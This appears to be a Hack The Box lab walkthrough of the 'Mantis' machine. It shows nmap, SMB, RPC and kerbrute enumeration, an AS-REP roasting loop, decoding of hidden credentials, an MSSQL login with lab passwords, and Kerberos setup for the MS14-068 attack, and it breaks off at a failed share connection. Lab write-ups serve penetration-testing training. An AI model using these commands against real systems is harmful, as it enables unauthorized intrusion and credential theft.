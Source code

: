 ```yaml
---
description: https://app.hackthebox.com/machines/98
---
```


# Mantis

<figure><img src="../../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>

I'll start with a quick nmap scan and then look deeply into each open ports ->

```
nmap -p 53,88,135,139,389,445,464,593,636,1337,1433,3268,3269,5722,8080,9389,10475,26347,49152,49153,49154,49155,49157,49158,49164,49165,49171,50255 -sC -sV 10.129.20.149 -Pn
```

<figure><img src="../../../.gitbook/assets/image (724).png" alt=""><figcaption></figcaption></figure>

we quickly enumerate smb:

```
smbmap -H 10.129.20.149
smbclient -N -L 10.129.20.149
```

<figure><img src="../../../.gitbook/assets/image (725).png" alt=""><figcaption></figcaption></figure>

Both `smbmap` and `smbclient` seem to authenticate anonymously, but return no shares

Now let's enumerate RPC (445)

```
rpcclient -U '' -N 10.129.20.149
querydispinfo
enumdomusers
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb/rpcclient-enumeration" %}

<figure><img src="../../../.gitbook/assets/image (726).png" alt=""><figcaption></figcaption></figure>

Now let's look for valid users ->:

```
kerbrute userenum --domain htb.local /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt --dc 10.129.20.149
```

Good we found some stuff:

<figure><img src="../../../.gitbook/assets/image (728).png" alt=""><figcaption></figcaption></figure>

Now let's test out for ASP-Roasting with `GetNPUser`

<figure><img src="../../../.gitbook/assets/image (727).png" alt=""><figcaption></figcaption></figure>

```
for user in $(cat users); do GetNPUsers.py htb.local/${user} -no-pass -dc-ip 10.129.20.149 2>/dev/null | grep -F -e '[+]' -e '[-]'; done
```

<figure><img src="../../../.gitbook/assets/image (738).png" alt=""><figcaption></figcaption></figure>

1. `for user in $(cat users)`: This loops through each line of the file called "users" and assigns the line to the variable "user".
2. `do GetNPUsers.py htb.local/${user} -no-pass -dc-ip 10.129.20.149 2>/dev/null`: This runs the GetNPUsers.py script for each user in the "users" file, using the domain "htb.local" and the IP address "10.129.20.149" as the domain controller. The "-no-pass" option is used to specify that no password will be provided. The `2>/dev/null` part is used to redirect any error messages to the null device, effectively hiding them from the user.
3. `| grep -F -e '[+]' -e '[-]'`: This pipes the output of the previous command to the grep command, which is used to filter the output to only show lines that contain either the "\[+" or "-" characters. These characters are used to indicate whether the script was able to extract a valid NTLM hash for the user or not.

We look at the http web page on port 8080:

<figure><img src="../../../.gitbook/assets/image (739).png" alt=""><figcaption></figcaption></figure>

then we see :

<figure><img src="../../../.gitbook/assets/image (740).png" alt=""><figcaption></figcaption></figure>

Maybe there is something to look on this side ->:

<figure><img src="../../../.gitbook/assets/image (741).png" alt=""><figcaption></figcaption></figure>

But let's continue enumeration

port 1337 was open&#x20;

<figure><img src="../../../.gitbook/assets/image (742).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir -u http://10.129.20.149:1337 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40 
```

Bingo&#x20;

<figure><img src="../../../.gitbook/assets/image (743).png" alt=""><figcaption></figcaption></figure>

i click on the first one and see some steps for setting up the server:

<figure><img src="../../../.gitbook/assets/image (744).png" alt=""><figcaption></figcaption></figure>

beware of sneaky traps, scroll down ->

<figure><img src="../../../.gitbook/assets/image (745).png" alt=""><figcaption><p>010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (746).png" alt=""><figcaption><p>sNEAKY</p></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (730).png" alt=""><figcaption><p>@dm!n_P@ssW0rd!</p></figcaption></figure>

We then go to&#x20;

```
10.129.147.242:8080/admin
```

<figure><img src="../../../.gitbook/assets/image (731).png" alt=""><figcaption></figcaption></figure>

and are able to login with those creds

<figure><img src="../../../.gitbook/assets/image (732).png" alt=""><figcaption></figcaption></figure>

looking at the nomenclature of the file name was a bit wierd:

<figure><img src="../../../.gitbook/assets/image (733).png" alt=""><figcaption></figcaption></figure>

so I copied and pasted it in cyberchef and let the magic do his thing:

<figure><img src="../../../.gitbook/assets/image (734).png" alt=""><figcaption></figcaption></figure>

another way of doing it is:

```
echo NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx | base64 -d | xxd -r -p
```

<figure><img src="../../../.gitbook/assets/image (735).png" alt=""><figcaption></figcaption></figure>

since the content of the file Id'd admin, i'll try connecting to mysql (1433) with admin/m\$$ql\_S@\_P@ssW0rd!:

```
mssqlclient.py 'admin:m$$ql_S@_P@ssW0rd!@10.129.147.242'
```

<figure><img src="../../../.gitbook/assets/image (736).png" alt=""><figcaption></figcaption></figure>

But CLI is not the best so let's use GUI with `dbeaver`

<figure><img src="../../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>

then we start looking at every file and looking at the data :

<figure><img src="../../../.gitbook/assets/image (747).png" alt=""><figcaption><p>james/ J@m3s_P@ssW0rd!</p></figcaption></figure>

this brings a new perspective for our enumeration ->

to connect via RCP with rpcclient with credentials:

```
rpcclient -U htb.local/james 10.129.157.60
```

<figure><img src="../../../.gitbook/assets/image (748).png" alt=""><figcaption></figcaption></figure>

With a user, now I can dump the full list of ASP-REP vulnerable users

```
GetNPUsers.py 'htb.local/james:J@m3s_P@ssW0rd!' -dc-ip 10.10.10.52
```

nothing to be found on this side:

<figure><img src="../../../.gitbook/assets/image (749).png" alt=""><figcaption></figcaption></figure>

> After striking out on more exploitation, I started to Google a bit, and eventually found [this blog post](https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html) about MS14-068. Basically it’s a critical vulnerability in Windows DCs that allow a simple user to get a Golden ticket without being an admin. With that ticket, I am basically a domain admin.

{% embed url="https://wizard32.net/blog/knock-and-pass-kerberos-exploitation.html" %}

install the Kerberos packages:

```
apt-get install krb5-user cifs-utils
```

in `/etc/hosts`

```
10.10.10.52 mantis.htb.local mantis
```

in `/etc/resolv.conf`

```
nameserver 10.10.10.52
```

in `/etc/krb5.conf` (information about the domain)

```
[libdefaults]
    default_realm = HTB.LOCAL

[realms]
    htb.local = {
        kdc = mantis.htb.local:88
        admin_serve = mantis.htb.local
        default_domain = htb.local
    }
[domain_realm]
    .domain.internal = htb.local
    domain.internal = htb.local
```

`ntpdate 10.10.10.52` to sync my host’s time to Mantis, as Kerberos requires the two clocks be in sync.

```
kinit james
klist
```

<figure><img src="../../../.gitbook/assets/image (750).png" alt=""><figcaption></figcaption></figure>

Let's try to connect to C$ ->

```
smbclient -W htb.local //mantis/c$ -k
```

but it does not work

